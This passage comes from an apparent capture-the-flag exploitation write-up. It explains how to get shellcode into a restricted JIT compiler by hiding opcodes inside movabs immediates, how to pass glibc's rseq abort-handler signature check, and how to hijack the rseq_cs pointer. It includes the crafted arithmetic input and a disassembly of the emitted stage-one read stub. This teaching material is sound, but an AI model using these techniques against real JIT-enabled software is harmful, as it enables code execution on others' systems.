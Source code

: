 I noticed in the code that the abort handler must be preceded by a valid "signature" as a measure to prevent attacks. There is no crypto here, the "signature" is always [`0x53053053`](https://elixir.bootlin.com/glibc/glibc-2.41/source/sysdeps/unix/sysv/linux/x86/bits/rseq.h#L30), in order to prevent code reuse attacks. But this should not be a problem for use, since we have a RWX page.

## Exploit

Now we have a clear exploit path: build a shellcode and a `rseq_cs` in the RWX page, then overwrite the `rseq_cs` pointer in the TLS. But once again, everything did not go as intended.

### Building a shellcode

Let's start with the first question: how do we build a shellcode, when we can only emit `push`, `pop`, `movabs`, `add`, `sub` and `mul` instructions?
Fortunately, there is a technique well known from browser exploitation: embedding opcodes in immediates. To understand it, let's take an example. Consider the following bytes and their disassembly:

```
0:  48 b8 31 c0 31 ff 5e    movabs rax,0x50f5a5eff31c031
7:  5a 0f 05 
```

This is a `movabs` instruction, that we could generate with our JIT compiler. In it's compiled form, it is made by the `48B8` opcode, followed by the 8-bytes immediate in little-endian. But if we disassemble from the third byte, we get the following result:

```
0:  31 c0                   xor    eax,eax
2:  31 ff                   xor    edi,edi
4:  5e                      pop    rsi
5:  5a                      pop    rdx
6:  0f 05                   syscall 
```

So, we can actually hide other opcodes inside the immediates of a `movabs` instruction, and run them by jumping at the right offset. We are however limited to 8 bytes, then the next instruction starts, and we are aligned with the original instructions again. But there is another trick: leap frog ("saute-mout~~h~~on" in French). We can write 6 bytes of instructions, then replace the last two bytes by a `jmp` instruction, jumping over the next opcode and landing in the next immediate. I used this technique to build a minimal shellcode that only performs a `read` on its own memory, so that I could then send a bigger shellcode on `stdin`. And I made the shellcode start with `0x53053053`, to validate the signature check. To emit my shellcode, I send the following computation:

```
(282599988952117331+(282321603791344177+(282422755733799144+282478349875396657)))
```
This results in the following assembly being emitted:
```
   0x79b7f5c7d000:      movabs rax,0x3ebff3153053053
   0x79b7f5c7d00a:      push   rax
   0x79b7f5c7d00b:      movabs rax,0x3eb0200ba66d231
   0x79b7f5c7d015:      push   rax
   0x79b7f5c7d016:      movabs rax,0x3eb5e00000000e8
   0x79b7f5c7d020:      push   rax
   0x79b7f5c7d021:      movabs rax,0x3eb9090050fc031
   0x79b7f5c7d02b:      push   rax
   0x79b7f5c7d02c:      pop    rdx
   0x79b7f5c7d02d:      pop    rax
   0x79b7f5c7d02e:      add    rax,rdx
   0x79b7f5c7d031:      push   rax
   0x79b7f5c7d032:      pop    rdx
   0x79b7f5c7d033:      pop    rax
   0x79b7f5c7d034:      add    rax,rdx
   0x79b7f5c7d037:      push   rax
   0x79b7f5c7d038:      pop    rdx
   0x79b7f5c7d039:      pop    rax
   0x79b7f5c7d03a:      add    rax,rdx
```